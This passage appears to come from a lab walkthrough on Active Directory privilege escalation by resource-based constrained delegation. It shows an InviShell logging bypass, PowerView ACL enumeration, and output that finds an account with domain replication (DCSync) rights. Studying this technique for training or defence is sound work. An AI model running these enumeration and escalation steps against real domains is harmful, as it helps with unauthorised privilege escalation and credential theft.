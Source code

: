 
---

#### Domain Privilege Escalation | Resource-based Constrained Delegation (with PowerView, Rubeus, SafetyKatz)

- **Find a Target Server where we have Write Permissions and Access to it**

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'techservice'}`

`Find-InterestingDomainACL -ResolveGUIDs | ?{$_.identityreferencename -match 'sqlserversync'}`:
```
ObjectDN                : DC=tech,DC=finance,DC=corp
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ExtendedRight
ObjectAceType           : DS-Replication-Get-Changes-In-Filtered-Set📑
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-1325336202-3661212667-302732393-1111
IdentityReferenceName   : sqlserversync👤
IdentityReferenceDomain : tech.finance.corp
IdentityReferenceDN     : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
IdentityReferenceClass  : user

ObjectDN                : DC=tech,DC=finance,DC=corp
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ExtendedRight
ObjectAceType           : DS-Replication-Get-Changes📑
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-1325336202-3661212667-302732393-1111
IdentityReferenceName   : sqlserversync👤
IdentityReferenceDomain : tech.finance.corp
IdentityReferenceDN     : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
IdentityReferenceClass  : user

ObjectDN                : DC=tech,DC=finance,DC=corp
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ExtendedRight
ObjectAceType           : DS-Replication-Get-Changes-All📑
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-1325336202-3661212667-302732393-1111
IdentityReferenceName   : sqlserversync👤
IdentityReferenceDomain : tech.finance.corp
IdentityReferenceDN     : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
IdentityReferenceClass  : user
```
